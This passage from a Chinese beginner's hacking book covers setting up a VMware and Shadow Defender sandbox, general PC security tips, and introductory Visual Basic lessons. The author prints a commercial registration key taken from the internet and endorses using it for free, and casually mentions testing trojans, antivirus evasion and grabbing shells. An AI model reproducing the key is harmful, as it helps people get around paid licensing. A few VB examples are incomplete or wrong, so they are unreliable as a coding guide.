要使用 VMware Workstation，首先需要在 VMware Workstation 中新建一个虚拟机（Virtual Machine），然后在建立的虚拟机中安装操作系统。点“New Virtual Machine”按钮或点“File”菜单下的“New”，然后选择“Virtual Machine”来开始新建一个虚拟机，如图3。首先出来的是如图4的对话框，点“下一步”后出现如图5的选择安装模式的对话框，默认是“Typical”，即典型安装。为了获得更多设置的机会，我这里选“Custom”，即选择自定义安装模式。点“下一步”后会出来如图6的选择对话框，我们保持默认的 Workstation 6 然后点“下一步”。接下来让你选择这个虚拟机中要安装操作系统的类型，我打算在虚拟机里安装一个 Windows Server 2003，就选择“Microsoft Windows”，版本（Version）选择“Windows Server 2003 Enterprise Edition”，如图7。

选择好操作系统类型后，会出来让你设置虚拟机的名字和选择虚拟机保存在哪里的对话框。为了便于识别和管理，需要给虚拟机起一个名字，然后输入到“Virtual Machine Name”下面的输入框中，这里我起名为 2k3_x。前面已经说过了，一个虚拟机其实就是保存在硬盘上的一些文件，在“Location”下面选择这些文件保存在硬盘上的位置，默认保存在系统目录下，建议单独划分一个磁盘分区来存放虚拟机文件。这里我让它保存在专门存放虚拟机文件的 M 盘，具体目录为 M:\vmware\2k3_x\，如图8。


继续点“下一步”就来到了让你选择虚拟处理器个数的地方。如果你的电脑是单核处理器就选择 One，如果你的处理器是双核或两个以上核心，就选择 Two（VMware Workstation 6.0.4 最多支持选择 2 个核心，7.0.1 版及以后的版本支持 4 核心的选择了）。继续点“下一步”就来到了设置虚拟机内存大小的地方，这里根据你的物理内存的大小来给虚拟机分配内存，这里我给它分配了 512MB 的内存，如图9。


点“下一步”后来到了设置虚拟机网络的地方。虚拟机上网通过外面的宿主机系统的网络来上网的话就选择 NAT，如果要在虚拟机里直接通过 ADSL 拨号上网的话就选择桥接模式（Use bridged networking），如图10。


继续点“下一步”后会让你选择 I/O 适配器的类型，保持默认的 “SCSI Adapters” 下的 “LSI Logic” 不变，然后点“下一步”后会出来如图11的让你选择虚拟机用哪个硬盘的界面。


这里我选择“Create a new virtual disk”，即新建一个虚拟硬盘。接下来会让你选择硬盘的类型，保持默认的 “SCSI” 继续点“下一步”，让你选择虚拟硬盘的大小，默认的是 8.0GB，可以设置得大一点，免得到时候不够用了麻烦。我这里设置为 16.0GB。你也不必担心会占用过多硬盘空间，如果你不选择“Allocate all disk space now”选项，这个虚拟机不会立即占用 16.0GB 的硬盘空间，而是实际用了多少空间就占用多少物理硬盘空间。刚安装完操作系统后最多占用 3GB 的物理硬盘空间，以后随着在虚拟机系统中安装、使用别的文件，占用的物理硬盘空间才会慢慢变大。“Split disk into 2 GB files”选项也不要选，它的意思是把虚拟硬盘文件分割成单个文件 2GB 大小的几个文件，如图12。


点“下一步”后出来如图13的对话框，在这里可以设置虚拟硬盘文件的名字。这里我保持默认，点“完成”按钮后会出来一个提示虚拟机创建成功的提示框，直接点“Close”按钮关闭提示框，就新建好了一个如图14的虚拟机。


建立虚拟机看起来有些复杂和麻烦，但只是介绍起来有点麻烦，实际建立时一点也不麻烦，几乎全是下一步，然后做几个选择就可以完成，不到 20 秒。


虚拟机建立完成后，还可以点击图14中的“Edit virtual machine settings”来更改虚拟机的设置，比如可以增加或减小虚拟机的内存，也可以增删各种虚拟硬件。如果用不到软驱，选中“Floppy”点下面的“Remove”按钮就可以删除虚拟的软驱了，如图15。


刚才我们建立的虚拟机好比一台新买的还没安装操作系统的电脑。要使用虚拟机，首先要在虚拟机里安装操作系统。真实的电脑一般通过光驱安装操作系统，VMware 中的虚拟机也可以通过光驱安装操作系统。双击图14中的“CD-ROM”，就打开了虚拟光驱设置的地方。如果你有系统安装光盘，虚拟机可以直接使用你机子上的真实光驱来安装系统；如果要用物理光驱来安装系统，就选择“Use physical drive”，然后下拉列表中会列出当前可用的物理光驱。VMware 的虚拟机除了可以通过物理光驱安装系统外，还支持利用 ISO 文件来安装操作系统，这样即使你没有系统安装光盘，从网上下载一个系统的镜像文件就可以安装系统了。我这里使用 ISO 文件来安装操作系统，选择“Use ISO image”，然后通过 Browse 按钮选择你要使用的 ISO 文件。这里我选择了一个名为 Win2K3_EE_FULL_080328(Win2K3_EE_SP2_Full_080328完整版_深度).iso 的 2003 系统的 ISO 文件，如图16。点“OK”按钮完成设置，下面就可以来安装操作系统了。点图16中的那个绿色向右的三角开机按钮，就像我们平时在真实电脑中安装系统一样开始安装操作系统了，如图17。在虚拟机中点一下鼠标，把鼠标切换到虚拟机中，然后按键盘上的 1 就开始安装了。在图18的地方，我把 16GB 的虚拟硬盘划分为两个分区，C 盘 10GB 作为系统盘，D 盘 6GB 留作它用。


图19

接下来就是等待系统安装完成了。在虚拟机里安装操作系统也很快，只用了 12 分钟就安装完成了，貌似比在真实电脑中安装操作系统还快。安装完成后的系统如图19。

你可能会发现鼠标在虚拟机系统中移不出来了，要按 Ctrl+Alt 才能移出来，宿主机和虚拟机的系统之间也不能通过拖拽来传递文件。通过在虚拟机系统中安装 VMware Tools 就可以解决这些问题了。选中要安装 VMware Tools 的虚拟机，然后选择“VM”菜单下的“Install VMware Tools”，会弹出一个对话框，点“Install”按钮后，在虚拟机系统的光驱中会出现一张名为 VMware Tools 的虚拟光盘，双击光盘后就会开始安装 VMware Tools 了，如图20、21。

安装完成后会要求你重启虚拟机里的系统，重启完成后鼠标就可以在宿主机系统和虚拟机系统之间自由切换了，还可以直接通过拖拽在宿主机系统和虚拟机系统之间相互传递文件。


图20

来让虚拟机里的系统上网。因为我们在建立虚拟机的时候虚拟机的网络设置的是 NAT，不用再进行任何设置，虚拟机里的系统应该已经能上网了。用浏览器访问 http://www.baidu.com/，果然已经可以上网了，如图22。如果还不能上网的话，请把虚拟机里的本地连接设置为自动获得 IP。


图22


图21

接下来安装 Shadow Defender。Shadow Defender 目前的最新版本为 1.1.0.331，官方下载地址为 http://www.shadowdefender.com/download.html，在这个下载地址还能下载到“Language Files”，也就是语言文件，方便你把软件界面变成中文的，下

## 菜鸟轻松学攻防

载入语言文件的时候我选择简体中文（Simplified Chinese）。最新版的 Shadow Defender 1.1.0.331 目前还没有对应的中文语言文件，不过有 Shadow Defender 1.1.0.320 的中文语言文件，经过测试也可以用在最新版 Shadow Defender 1.1.0.331 中，下载地址为：http://www.shadowdefender.com/download/Lang/320/CHS/res.ini。


图23

Shadow Defender 1.1.0.331 的安装文件非常小，只有 1.00 MB，直接双击下载好的文件 SD1.1.0.331_Setup.exe 进行安装，安装完成后需要重新启动系统。重启系统后双击桌面上的 Shadow Defender 快捷方式会出现如图23的对话框，点“Register”按钮来注册软件。


图24

我们有注册码吗？不用担心，Shadow Defender 虽然是收费软件，但它的注册码却可以在网上很容易找到，因此可以免费不受限制地使用这个软件，而且注册码各个版本的 Shadow Defender 通用，利用起来真是方便啊。输入从网上找到的一个注册码 DA8EK-W6RYY-E8JNG-AUM13-F52PT 完成注册，注册完成后会自动打开如图24的软件界面。


图25

现在软件是英文的，对一些朋友来说可能有一些使用上的障碍，我们来把它变成中文界面。把从软件官方下载的语言文件 res.ini 替换 Shadow Defender 安装目录下的文件 res.ini，再次打开软件，发现已经是中文界面了，如图25。

点“模式设置”按钮，选择要进入影子模式的分区，然后点“进入影子模式”按钮，就可以让指定分区进入影子模式了，如图26。


图26

是不是现在就可以在虚拟机系统里随便测试木马病毒、随便上网了呢？这个……应该说可以了，不过为了以后减少一些麻烦，我还需要做一件事情。刚安装好的虚拟机系统我叫它虚拟机A，我并不直接使用虚拟机A，而是克隆一个和虚拟机A一样的虚拟机B，平时我们使用虚拟机B。这样即使虚拟机B出现问题，直接删除，然后再用虚拟机A克隆一个新的虚拟机B出来就行了。克隆一个虚拟机比新建一个虚拟机然后再在里面安装操作系统快得多。

在 VMware 里怎么克隆虚拟机呢？选中没开机的要克隆的虚拟机，这里我选择虚拟机 2k3_x，然后选择“VM”菜单下的“Clone”子菜单，会弹出克隆功能的欢迎对话框，点“下一步”会出现从哪里克隆的选择框，因为是刚建立的虚拟机，还没做过快照，保持默认的 Clone from “The current state in the virtual machine”；如果已经有快照的话还可以选择 Clone from “An existing snapshot”，即从已经存在的系统快照克隆，如图27。


图27

点“下一步”会出来让你选择克隆模式的对话框，有两种克隆模式供选择：

- “Create a linked clone”，它依赖于被克隆虚拟机（母机），如果母机出现问题，克隆出来的虚拟子机也同样会出现问题，但它有占用磁盘空间少、克隆速度快的特点；
- “Create a full clone”，完全克隆，它克隆出来的是完全独立的虚拟机，它的执行效率与被克隆虚拟机相同，但与 Linked Clone 相比，它占用空间多、克隆慢。

为了达到我们的目的，这里选择“Create a full clone”，如图28。点“下一步”出来让你设置克隆的虚拟机的名字和虚拟机存放位置的对话框，名字我保持了默认的 Clone of 2k3_x，保存位置我选择了 M:\vmware\2k3_x_clone，点“下一步”后就开始克隆了，并会出现如图29的克隆进度对话框。不到两分钟就完成了克隆，速度相当快。


图28


图29

启动新克隆的虚拟机 Clone of 2k3_x，你会发现它和虚拟机A一模一样。打开 Shadow Defender，所有分区进入影子模式，你就可以放心上网了，不怕网页被挂马，可以放心测试各种木马病毒。在退出影子模式后，系统会回到刚要进入影子模式时的状态。

你可以在 VMware 中建立多个虚拟机，比如分别建立用来测试各种程序漏洞的虚拟机、做免杀的虚拟机、跑彩虹表的虚拟机等，并且多个虚拟机可以同时运行。

既然已经安装好了 VMware+Shadow Defender，并且建立好了虚拟机，建议平常的操作都在克隆的虚拟机中进行。访问不确定安全性的网站，到网上去拿 shell，一定要在虚拟机中进行。我访问几乎所有的网站都在虚拟机中进行。Shadow Defender 虽然很厉害，但可能偶尔有强毒可以穿透 Shadow Defender 让虚拟机中毒，这时候不要担心，直接在“VM”菜单下选择“Delete from disk”，删除中毒的虚拟机，然后用虚拟机A克隆一个虚拟机B出来，不到2分钟，一个干净的虚拟机系统又可以使用了。即使虚拟机中了病毒也不会影响到宿主机。

要运行 VMware，电脑配置不能太低。如果你的电脑是只有 256MB 内存的老爷机，就不要安装 VMware 了，建议只安装 Shadow Defender，它占用极少系统资源，并且不需要再装杀毒软件。由于只用 Shadow Defender，安全性降低不少，系统仍有可能中毒，因此要做好系统的备份工作。好在现在主流的电脑都最少 2GB 内存了，同时跑 2、3 个虚拟机系统都不是问题。

关于 Shadow Defender 具体是怎样保护系统安全的，以及它的转储、排除等高级功能的利用，大家可以上网查询，也可以参考《黑客X档案》2008年第7期的“电脑安全的利器——Shadow Defender”一文。

VMware+Shadow Defender 搭建起了电脑安全防线的骨架，还有一些别的事情要做。

#### 4.4 下载的安全

玩黑的朋友少不了黑客软件，当你从网上下载它们时是否注意过安全问题呢？

有些人，尤其是新手，对从网上下载的黑客软件常常存在两个误区：

- 1. 杀毒软件报警的都有问题；
- 2. 黑客软件可以随便下（只要网上有的我都可以下下来用）。

先来说说第一个误区，有些无害的黑客工具（比如大名鼎鼎的 nc）也被很多杀毒软件查杀了。如果我们下载的是木马，比如灰鸽子、pcshare 等，被杀就更正常了，因为它们本身就是被杀毒软件重点查杀的对象，但这些软件还是可以用的（前提是软件没被人做过手脚）；再来说说第二个误区，记得我刚开始接触黑客工具时，打开百度，直接搜索“黑客工具”，不管什么网站，随便找一个工具就下，中了很多次毒。后来就不敢随便下载了。

网上的黑客软件良莠不齐，有好软件，也有个别人发的经过捆绑甚至直接就是木马服务端、盗号软件的。你所用的黑客软件的安全很重要，作为一个学黑的，因为用了错误的黑客工具而成了别人的肉鸡，总不是一件光彩的事。那么作为一个菜鸟，尤其是新手，怎样才能下载到比较安全的黑客软件呢？我结合自己的经验给几条建议：

- 1. 去大的、名声比较好的黑客网站和论坛去下。大的黑客站点提供的软件一般都是经过检测的，基本可以放心使用。如果是从大的黑客论坛下载，建议只下载论坛管理员、管理组成员或版主发的（注册时间长、名声一直比较好的老会员提供的软件也可以考虑下载）。如果看到新会员发工具贴，尤其是那种刚注册上来就发工具，工具不是以附件的形式发，而只给一个下载链接的，有90%是有问题的。你自己想想就行，他注册个账号只为和你分享软件，他有那么好？有问题的帖子为了吸引人，标题起得往往很有诱惑性，比如“价值xx元的VIP工具”“强制视频软件”“快速抓鸡”等，这样的千万不要下。
- 2. 去官方下载。几乎所有黑客工具都有官方出处，如果能从官方下载到，强烈建议去官方下载，官方的软件一般是不会捆绑什么东西的（最多留个后门——。二）。如果你连官方都不相信了，干脆换软件吧。怎样找官方地址呢？一般在软件的“关于”和“帮助”里能找到官方地址（网站或论坛）。
- 3. 如果实在在可信的网站找不到你要找的软件，需要从不能确信是可靠的地方下载时，建议在虚拟机中运行，或开影子系统等具有还原功能的软件后再运行（我几乎不管用什么黑客软件都开完全影子模式）。

另外对于任何软件，建议用原版的。对于软件的美化版、优化版、精简版、完美版等修改版软件，建议不要使用。如果这些修改版软件一旦被别有用心的人放个后门什么的，后果就严重了。不怕一万，就怕万一。

## 4.5 USB存储设备的安全

现在的 USB 存储设备容量越来越大，价格越来越便宜，在给人们带来巨大方便的同时也给电脑带来了危险。现在通过 USB 存储设备传播病毒是病毒传播的一条重要途径。如果你安装了 VMware+Shadow Defender，可以单独建立一个虚拟机专门来对 USB 存储设备进行操作，并在接入 USB 存储设备前启动虚拟机里的 Shadow Defender（所有分区进入影子模式），把虚拟机弄成全屏后在虚拟机系统中点一下鼠标，这时候插入 USB 存储设备，虚拟机会抢先识别它，外面的宿主系统不会识别。虚拟机中识别出 USB 存储设备后不要急于打开 USB 存储设备，可先用冰刃等安全软件的文件查看功能看一下 USB 存储设备根目录下是否有 autorun.inf 这个文件，有的话删除。如果在根目录下发现不明的可执行文件，也可以考虑删除。

有时候你想在虚拟机里使用 USB 存储设备，外面的宿主系统却识别了该 USB 设备，可能给宿主机系统带来危险。为了避免这种情况，你可以通过组策略禁止对移动存储设备的所有权限，系统不能访问 USB 存储设备了，自然也就避免了因此带来的风险。我这里以 Windows 7 系统为例来说下操作步骤，首先在“运行”中输入 gpedit.msc，回车后打开组策略编辑器，依次展开“计算机配置-->管理模板-->系统-->可移动存储访问”，双击“所有可移动存储类：拒绝所有权限”策略，设置为“已启用”，如图30，点“确定”按钮后将拒绝对任何可移动存储类的权限。


#### 4.6 安装软件的安全

计算机中不要乱装软件，尤其是宿主机中。很多事情都可以在虚拟机中完成，因此宿主机可以少装很多应用软件。宿主机中除非必须需要使用的软件不要装，可装可不装的软件坚决不要装。每个软件都可能存在漏洞，多装一个软件就多一份风险。系统本身有的功能最好就不要安装第三方软件了。如果你想试用新软件，可以在虚拟机中开 Shadow Defender 的影子模式后再试用。

#### 4.7 注意打补丁

软件难免有漏洞，发现漏洞后要及时打相应的补丁。对于 Windows 系统的补丁，如果你用的是正版操作系统，用系统中的“Windows Update”就可以打补丁了，如图31。


如果你用的不是正版系统，不能通过系统自带功能来升级，可以考虑使用 360 安全卫士、QQ 电脑管家等软件的打补丁功能来打补丁。有些杀毒软件也集成了扫描系统和软件漏洞的功能，比如江民杀毒软件就提供了扫描系统漏洞、Office 漏洞和常用软件漏洞的功能，并可以自动修复扫描出的漏洞，如图32。


对于应用程序的漏洞，有的出现漏洞后软件会自动提示你更新，直接更新就是了。对于不提示更新的软件，可以多留意一下漏洞公布站点公布的漏洞信息，发现你正在使用的软件出现漏洞后，及时去软件官方网站下载相应补丁或修补漏洞后的版本；如果还没出补丁，可以考虑暂时禁用、卸载软件等来规避风险。

做了上面的安全加固后，系统的安全性大大加强，基本建成了电脑系统的安全防线，但要明确一点：没有绝对的安全。你的电脑系统仍然面临着安全风险，比如一个未公布的 Windows 系统远程溢出漏洞就可能攻陷你的宿主机；再比如如果 VMware 出现可以在虚拟机中直接攻击宿主机系统的漏洞，你的系统也会被攻陷。为了增加电脑系统的安全，要未雨绸缪，做好系统一旦被攻陷后恢复的准备工作，把可能存在的风险带来的损失尽量减少。

#### 4.8 做好备份

如果系统一旦被攻陷，硬盘上的文件可能被删除或破坏；在用 ghost 软件备份或还原系统时，由于操作失误也可能导致硬盘上的数据丢失，因此有必要做好备份工作。要养成定期备份的好习惯。对于你来说比较重要的文件，比如辛苦收集的黑客工具，要定期备份，而且最好备份到光盘或 U 盘、移动硬盘等可移动存储设备上，这样别人即使控制了你的系统，备份数据也是安全的。

#### 4.9 加密

对于存放在硬盘上的机密文件，要进行加密处理。对于保存了你的个人信息、账号密码等信息的机密文件，建议进行加密处理，这样即使别人控制了你的系统并得到了这些机密文件，也不会造成信息泄露。至于选用什么加密软件，就看你的爱好了。以前我曾在《黑客X档案》上介绍过一款优秀加密软件——AxCrypt，这里再推荐一下。

有的读者可能心里嘀咕，讲电脑安全怎么没提到杀毒软件呢。其实，在我们进行了上面讲到的安全措施后，杀毒软件真的有点多余……如果你非要装，在宿主机中安装一个你认为不错的杀毒软件也可以。

在上面的文章中，我讲了九条打造电脑安全防线要做的事情或要注意的事情，并以 VMware+Shadow Defender 作为主要安全措施。保护电脑系统安全要做的或要注意的事实在太多了，每个人都有自己的一套方法，还有很多是小菜我不知道的。抛砖引玉，只给大家讲了我想到的，错误和遗漏在所难免，欢迎大家指正和补充。希望通过本章大家都能更好地打造自己电脑系统的安全防线，不做他人的肉鸡。

## VB BASED ON

## VB基础篇

## 第一章 VB简单基础

### 1.1 Sub过程与Function函数

### 1.1.1 Sub过程

Sub过程是VB程序的重要组成部分。一个程序若不含Sub过程，那么这个程序相当于毫无用处了。

Sub过程的基本形式：

```vb
[Private|Public] Sub 过程名([参数1, 参数2…])

[Exit Sub]

End Sub
```

Private|Public 指明过程是私有的还是公用的。当使用 Private 时就是私有，过程只能在本窗体或模块中调用；使用 Public 时，则可以在整个工程中调用。

Exit Sub 是退出过程语句，即不执行后面的语句而直接退出过程。

我们以实例来看看过程。首先新建一个工程，添加一个窗体，然后添加如下代码：

```vb
Private Sub Form_Load()
    MsgBox "这是窗体事件"
End Sub
```

执行结果如图1-1。

我们再将代码改成如下：


执行结果如图1-2。

在上述代码中分别出现了两个过程，一个是 Form_Load() 过程，另一个是 mysub() 过程。事实上，Form_Load() 过程是窗体的加载事件，也就是在窗体加载时会执行其中的代码。而 mysub 过程作为我们的自定义过程，必须要在其他过程中调用才会执行。调用方式为上述所使用的 Call 调用方法，或者直接写过程名也行。这是因为 VB 是事件驱动型应用程序。事件驱动型应用程序运行时等待事件被触发，没有明显的起点和终点。

提示：事件过程也是 Sub 过程，但它很特殊，附加在控件上。

MsgBox 函数是弹窗函数，一般用法为 MsgBox "hacker"，即可弹出“hacker”（没有引号）这个词。我们可以将“hacker”改为我们想弹出的任意内容。具体用法到后面说函数的时候还会说到。


图1-2

### 1.1.2 Sub过程的参数操作

Sub过程可以对参数进行操作，但是不会有返回值，我们来看一个例子：

```vb
Private Sub Form_Load()
    Dim a As Integer
    Dim b As Integer
    a = 1
    b = 2
    Call addnum(1, 2)
End Sub

Private Sub addnum(x As Integer, y As Integer)
    MsgBox (x + y)
End Sub
```

执行结果如图1-3。


图1-3

上述代码中，addnum 后的括号中就是 addnum 这个过程所需要操作的参数。x As Integer 定义了参数 x 为 Integer（整数）类型。至于数据类型我们会在后面讲到，大家不要着急。

参数的传递方法又分为两种，分别是 ByVal（传值）和 ByRef（传地址）方式。ByRef 方式也叫按引用方式。单看名称大家也大概可以猜出它们的作用。如果参数前不加传递方式的话，一般默认是传值的，就如上面的代码一样。

我们通过实例来看看两种参数传递方式的区别：

```vb
Private Sub Form_Load()
    Dim a As Integer
    a = 1
    Call ByValSub(a)
    MsgBox "ByVal:" & a
    Call ByRefSub(a)
    MsgBox "ByRef:" & a
End Sub

Private Sub ByValSub(ByVal x As Integer)
    x = x + 1
End Sub

Private Sub ByRefSub(ByRef x As Integer)
    x = x + 1
End Sub
```

执行结果如图1-4。

我们执行 ByValSub() 过程时，只是将值传递进去，而变量 a 是在 ByValSub() 过程之外的，所以实际上没有对变量 a 进行操作。而当我们执行 ByRefSub() 过程时，我们对变量 a 的内存地址中的内容进行了修改，所以虽然变量 a 在 ByRefSub() 过程之外，却相当于对变量 a 进行了操作。

Function 函数基本上与 Sub 过程相类似，唯一的不同就是 Function 函数具有返回值。如下：

```vb
Private Function Fuc(ByVal x As Integer) As Integer
    x = x + 1
End Function
```


图1-4

像上面的函数调用的时候需要类似 a = Fuc(1) 的语句，函数最后的 As Integer 代表函数的返回值是 Integer 类型。

> 提示：当数组作为函数过程参数时，采用传统地址方式传送数据，比如 String 类型的变量（说明见数据类型那一节）。

在调用含有对象的过程中，只能通过传地址的方式传递，不能加 ByVal。

#### 1.2 数据

在我们编写程序的时候，数据是不可缺少的一部分。数据类型是指数据的存储方式。不同的类型所占的内存空间大小也就不同，而且数据的取值范围也不同。

##### 1.2.1 变量与常量

变量是指可以动态改变的数据，通俗来说就是“可变的量”，而常量就是“不变的量”。比如一个人出生，他的父母就是常量，血缘关系是不可以改变的，他的年龄却可以一直在变化，所以他的年龄可以看成一个变量。声明变量和常量的基本语法如下：

```vb
Dim 变量名 As 数据类型

[Public|Private] Const 常量名 [As 数据类型] = 表达式
```

其中 Public 和 Private 是常量的作用域，与第二节中的过程相似，是指变量是否可以用于其他过程以及模块。常量一般都声明在所有过程之前的代码顶部（称为通用部分）。变量则可在过程中或通用部分声明。当变量在通用部分声明时，也可以使用 Public 和 Private 来指明变量的作用域。

当我们声明多个变量时，可用逗号隔开，我们看如下代码：

```vb
代码一：
Dim a, b As Integer

代码二：
Dim a
Dim b As Integer
```

上述两段代码实际上是相等的，在声明变量用逗号分开的时候，我们应该在后面分别指明数据类型，否则是默认的。在不同的窗体中也可以互相引用变量，但是需要加上窗体名，并且需要变量是公用（Public）的，否则会出现错误。在 VB 中对变量的规定有一条就是可以不声明变量而直接使用，我们称这种变量为隐式变量。在 C 语言中，若对使用的变量没有进行声明，编译的时候就会出现错误提示并且编译不会通过。在 VB 中我们也可以加上强制变量声明的代码，在通用部分添加代码 `Option Explicit` 即可。如图2-1，图2-2。

图2-1

不同窗体中引用变量的例子：

添加两个窗体，在窗体1中加入代码：

```vb
Public a As Integer

Private Sub Form_Load()
    a = 5
    Form2.Show
End Sub

' 窗体2中加入代码：
Private Sub Form_Load()
    MsgBox Form1.a
End Sub
```

图2-2

运行程序，结果如图2-3。因为窗体的加载 `Load()` 事件是在窗体加载时发生的而不是在窗体完成后发生的，所以在测试图中我们无法看到窗体显示出来。实际上，我们只要点“确定”之后，两个窗体就会出来了。

> 提示：定义变量时不指明类型的话，默认是变体型。

##### 1.2.2 数据类型

VB 中的基本数据类型常见的有数值型（Numeric）、布尔型（Boolean）、字符串（String）及变体型（Variant）。还有自定义的数据类型，自定义数据类型我们在此就不做过多讨论了。

###### 1) 数值类型（Numeric）

VB 中的数值类型有字节（Byte）、整型（Integer）、长整型（Long）、货币型（Currency）、单精度浮点数（Single）和双精度浮点数（Double），以下是各类型的取值范围。

| 数据类型 | 存储空间大小 | 范围 |
|---|---|---|
| Byte | 1 个字节 | 0 到 255 |
| Integer | 2 个字节 | -32,768 到 32,767 |
| Long | 4 个字节 | -2,147,483,648 到 2,147,483,647 |
| Single | 4 个字节 | -3.402823E38 到 -1.401298E-45 或 1.401298E-45 到 3.402823E38 |
| Double | 8 个字节 | -1.79769313486232E308 到 -4.94065645841247E-324 或 4.94065645841247E-324 到 1.79769313486232E308 |
| Currency | 8 个字节 | -922,337,203,685,477.5808 到 922,337,203,685,477.5807 |

当我们对变量进行操作时，如果操作变量得到的值超过了它所允许的范围，就会出现溢出。看如下代码：

```vb
Private Sub Form_Load()
    Dim a As Byte
    a = 256
End Sub
```

执行结果如图2-3。

###### 2) 布尔型（Boolean）

布尔型即逻辑类型，只有 True（真）和 False（假）两个值。当布尔型的值为数字时，非零的值为 True，零则为 False。看如下代码：

```vb
Private Sub Form_Load()
    Dim b As Boolean
    b = True
    Debug.Print b

    b = False
    Debug.Print b

    b = 5
    Debug.Print b

    b = 0
    Debug.Print b
End Sub
```

图2-4

执行结果如图2-4。

提示：上述代码中的 `Debug.Print b` 的意思是在立即窗口中打印 b 的值。

###### 3) 字符串（String）

字符串在 C 语言中是由 char（字符）数组组成的，在 C++ 中则是 string 类。不过在 C++ 中，字符串可以用下标的形式访问每一个字符，在 VB 中则不可以。如果我们直接用数组访问字符串的字符，编译器就会出现“要求数组”的错误提示。事实上，在 VB 中，String 类型还是由一个个的字符构成，组成一个字符数组，所以在说过程与函数的时候提到如果变量的类型是 String 类型，那么传递方式也使用按地址方式进行传递。

图2-5  
图2-6

```vb
Private Sub Form_Load()
    Dim str As String
    str = "hackerxfiles"
    MsgBox str(5)
End Sub
```

执行结果如图2-5。我们将“(5)”这部分去掉，结果如图2-6。

定义 String 类型的时候还需要注意到这里定义的 str 变量长度是任意的，我们称为变长。还有一种定长的定义，就是定义的 String 类型变量有个最大长度，代码如下：

```vb
Private Sub Form_Load()
    Dim str As String * 7
    str = "hackerxfiles"
    MsgBox str
End Sub
```

其中 `String * 7` 中的 7 代表最大长度，如果我们赋值上去的字符串大于这个长度，那么将不能完全显示。

###### 4) 变体型（Variant）

变体型是非常强大的一种类型，相当于所有类型的集合，可以赋予它数值、字符串和其他类型的值。看下面的例子：

```vb
Private Sub Form_Load()
    Dim v As Variant
    v = "fuck"
    v = 1
    x = v + 1
    MsgBox x
End Sub
```

执行结果如图2-7。

##### 1.2.3 类型转换

###### 1) 字符串与数字间的转换

字符串与数字之间的转换，有以下几个转换函数，我们直接使用即可：

- Str()：将数字转成字符串。
- Val()：将字符串转换成数字。
- Chr()：将 ASCII 码转换成字符。
- Asc()：将字符转换成 ASCII 码。

```vb
Private Sub Form_Load()
    MsgBox Chr(65)
    MsgBox Asc("A")
End Sub
```

运行上述代码，会发现第一次弹出“A”，第二次弹出“65”，意思是 A 对应的 ASCII 码就是 65。

###### 2) 进制转换

我们知道，数字可以分为很多种进制来表示，在计算机中我们常见的有 2 进制、8 进制、16 进制，那么他们之间如何快速地转换呢？当然 VB 也为我们提供了转换函数。函数如下：

- Hex 函数：返回代表十六进制数值的 String 型数据。
- Oct 函数：返回代表一数值的八进制值的 Variant 型数据。
- CInt 函数：强制将一个表达式转换成 -32,768 至 32,767 的整型数据。
- CLng 函数：强制将一个表达式转换成 -2,147,483,648 至 2,147,483,647 的长整型。
- CDbl 函数：强制将一个表达式转换成 Double 数据类型。

比如我们输入 `Hex(10)`，返回的是字符 A，`Hex(255)` 就是 FF。

##### 1.2.4 运算符

运算符包括算术运算符、关系运算符和逻辑运算符。

###### 1) 算术运算符

算术运算符就像我们学的“+”“-”“*”“/”之类的运算，除了负号是单目运算符，其他的都是双目运算符（有两个操作数），常见的算术运算符如下：

- `^` 幂运算
- `-` 负号
- `*` 乘
- `/` 除
- `\` 取整，如 `10 \ 3 = 3`
- `Mod` 取余，如 `10 Mod 3 = 1`
- `+` 加号
- `-` 减号，和负号一样，用法不同。当此符号之前没有操作数时，作负号用。

###### 2) 关系运算符

关系运算符是双目运算符，用来比较两个操作数的大小，返回类型为 Boolean 型，True 用 1 表示，False 用 0 表示。VB 中，总共提供了六种关系运算符。

- `=` 等于
- `>` 大于
- `>=` 大于等于
- `<` 小于
- `<=` 小于等于
- `<>` 不等于

###### 3) 逻辑运算符

逻辑运算符也有六种。在对数值进行运算时，使用二进制来运算。

###### 运算符说明规则

- **Not** 取反（非）：当操作数为假时，结果为真。
- **And** 与：两个操作数都为真时，结果为真。
- **Or** 或：其中一个操作数为真时，结果为真。
- **Xor** 异或：两个操作数相反时（指的是两个数分别是 0 和 1，不同时为 1 或不同时为 0），结果为真。
- **Eqv** 等价：两个操作数相同时，结果为真。
- **Imp** 蕴涵：第一个操作数为真，第二个操作数为假时，结果为假，其他情况都为真。

其中，Eqv 和 Imp 我们不会怎么见到。下面我举个例子让大家好明白这些运算符的作用。

比如说，`2 And 5`，我们先将两个操作数变为二进制，然后进行运算，结果为 0，过程如下。

```text
010    ...... 2 的二进制
And 101 ...... 5 的二进制
000    ...... 0 的二进制
```

上面的运算中，我们运用 And 运算法则，当两个操作数为真时，结果为真。但是我们 `2 And 5` 这个运算中，每个位都不符合这个法则，所以得到的结果都是 0（False），对应得到十进制 0。

###### 4) 运算符的优先级

很简单，你们要计算的时候在心中加上个括号吧，运算符的优先级的关系如下：算术运算符 >= 关系运算符 >= 逻辑运算符。

提示：关系运算符中，如果比较的是字符，则比较的是 ASCII 码；字符串的话，则逐位比较 ASCII 码。

### 第二章 控制结构

正常的情况下，代码是从上至下按顺序执行的。但是有的时候顺序结构不能满足我们的要求。比如我们要输出 10 次“Hello world”，如果按顺序结构来写的话就需要写 10 行代码。如果我们需要输出 N 次，而这个 N 又很大的话，那我们就要累死了。学了控制结构之后，我们就省了很多事。

#### 2.1 If 语句和 Goto 跳转

If 语句是条件判断语句，其基本形式如下：

```vb
If 条件 Then
    [语句块]
[Else]
    [语句块]
[ElseIf]
    ...
End If
```

If 语句的作用是：当条件满足时，会执行 Then 后面的语句块，不满足则执行 Else 后面的语句块（如果有 Else 的话）。

Goto 语句使程序跳转到指定的位置，常和 If 搭配，或在 If 之间，或在 If 之后。下面我们举个例子来说明：

```vb
Private Sub Form_Load()
    Dim a As Integer
    a = 0
x:
    a = a + 1
    If a < 5 Then
        GoTo x
    End If
    MsgBox a
End Sub
```

运行上面的代码，大家可以发现窗口弹出一个数字 5。我们分析一下过程，就是刚开始我们赋值 0 给 a，然后加 1，到了 If 处，程序会对 a 的值进行一个判断，如果小于 5，执行 GoTo 语句，也就跳到了 x 处（往回跳了，在其他程序中也有往后跳的，视情况而定）。如此重复过程，直到 If 后的 `a < 5` 这个条件不成立，不执行 GoTo 语句，然后弹窗，最后结束过程。

If 语句实际上是控制结构最基本的东西，也是最重要的，用它可以表示出下文中提到的所有控制语句。

提示：GoTo 语句后面跟的是需要跳转到的位置，这个位置必须存在。位置也可以看作一个变量，位置的表达则相当于在一个变量后面加个“:”冒号。

#### 2.2 For 循环

